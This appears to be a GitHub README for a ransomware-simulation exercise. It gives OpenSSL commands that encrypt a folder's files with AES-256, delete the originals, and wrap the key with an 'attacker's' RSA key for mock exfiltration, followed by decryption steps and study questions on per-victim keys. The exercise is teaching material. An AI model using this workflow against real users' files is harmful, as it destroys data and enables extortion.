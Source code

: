 
# AES-256 Encryption and Decryption Exercise

This exercise demonstrates how ransomware encrypts and decrypts files using AES-256 encryption, while securely handling the encryption key. 

## Create a Folder and Copy Files

Create a directory and copy some files into it.

```bash
mkdir encrypted_folder
cp /path/to/your/files/* encrypted_folder/
```

## Encrypt the Folder's Contents Using AES-256

Now, we'll encrypt all files inside `encrypted_folder` using AES-256 with a randomly generated key.

### Generate a Secure AES-256 Key

```bash
openssl rand -hex 32 > /home/chananya/Downloads/aes_key.txt
```

### Encrypt Files Using AES-256

We’ll use OpenSSL to encrypt each file inside `encrypted_folder`.

```bash
for file in encrypted_folder/*; do
    openssl enc -aes-256-cbc -salt -in "$file" -out "$file.enc" -pass file:/home/chananya/Downloads/aes_key.txt
    rm "$file"  # Remove original file
done
```

### Securely Send the AES Key to Another Location

To simulate **exfiltration of the key**, let's move the AES key to a separate directory (mimicking an attacker's server).

```bash
mv aes_key.txt ~/safe_location/  # Mimicking exfiltration
```

### Encrypt the AES Key Using RSA for Exfiltration

If simulating ransomware, the AES key would be encrypted using an attacker’s public RSA key before being exfiltrated.
By encrypting the AES key with the RSA public key, it ensures that even if the key is intercepted, it can't be read without the corresponding private key.

```bash
openssl rsautl -encrypt -pubin -inkey attacker_public.pem -in aes_key.txt -out aes_key_encrypted.bin
```
openssl rsautl \                  # Uses OpenSSL's RSA utility for encryption/decryption
    -encrypt \                     # Specifies that we want to encrypt data
    -pubin \                        # Indicates that we are using a public key for encryption
    -inkey attacker_public.pem \    # Specifies the public key file (attacker's public key)
    -in aes_key.txt \               # The input file containing the AES-256 key to be encrypted
    -out aes_key_encrypted.bin      # The output file where the encrypted AES key will be stored


## Look at the Encrypted Files

Lets try opening an encrypted file. It should appear as **random bytes**.

```bash
cat bst.c.enc
```
## Decrypt the AES Key and Use It to Decrypt the Files

Before we can decrypt the files, we must first decrypt the AES key.

### Decrypt the AES Key Using RSA

If the AES key was encrypted using RSA, lets use private RSA key to decrypt it.
```bash
openssl rsautl -decrypt -inkey private.pem -in aes_key_encrypted.bin -out aes_key.txt
```
### Decrypt Files Using the Decrypted AES Key

Once we have the decrypted AES key, we can now decrypt the files.

```bash
for file in encrypted_folder/*.enc; do
    openssl enc -aes-256-cbc -d -in "$file" -out "${file%.enc}" -pass file:/home/chananya/Downloads/aes_key.txt
    rm "$file"  # Remove encrypted file
done
```

## Compare the Decrypted and Original Files

To verify that decryption worked correctly, we compare the decrypted files with the original ones.

```bash
diff encrypted_folder/ /path/to/original_files/
```

If there’s **no difference** (no output), the encryption and decryption process worked great.

---

## Post-Exercise Questions

### **1. How did you encrypt your generated secure key? Why?**

We encrypted the AES key using **RSA** because:
- The AES key is sensitive and needs protection before it is transmitted or exfiltrated.
- RSA encryption ensures that only the intended recipient (with the private RSA key) can decrypt the AES key.

### **2. How did you generate a secure key? What does a secure key mean?**

The secure key was generated using a **cryptographically secure random number generator (CSPRNG)**. A secure key:
- Is **random** and **non-repetitive** (hard to guess).
- Has enough **entropy** to prevent brute-force attacks (AES-256 uses a 256-bit key).
- Is **stored securely** (not in plaintext or accessible to unauthorized parties).

### **3. Why did we choose AES-256?**

AES-256 was chosen because:
- **High security** – AES-256 provides a high level of security and is resistant to brute-force attacks.
- **Efficiency** – AES is designed to be fast for encrypting large volumes of data.
- **Industry standard** – AES-256 is widely used and trusted by governments and organizations worldwide.

### **4. Why did we not choose RSA?**

RSA is not ideal for encrypting large files because:
- **Slower performance** – RSA encryption is much slower than AES when encrypting large volumes of data.
- **Limited to small data** – RSA is typically used for encrypting small amounts of data, such as encryption keys, rather than entire files.

### **5. Why would we generate a new key for every infectee? Why not use the same one?**

Generating a new key for each victim increases security:
- **Avoids mass decryption** – If one key is compromised, only one victim's files are at risk.
- **Stronger encryption** – A unique key ensures that each victim’s data is securely encrypted with a different key.
- **Ransomware tactic** – Attackers usually provide a unique key for each victim to ensure they are forced to pay the ransom.

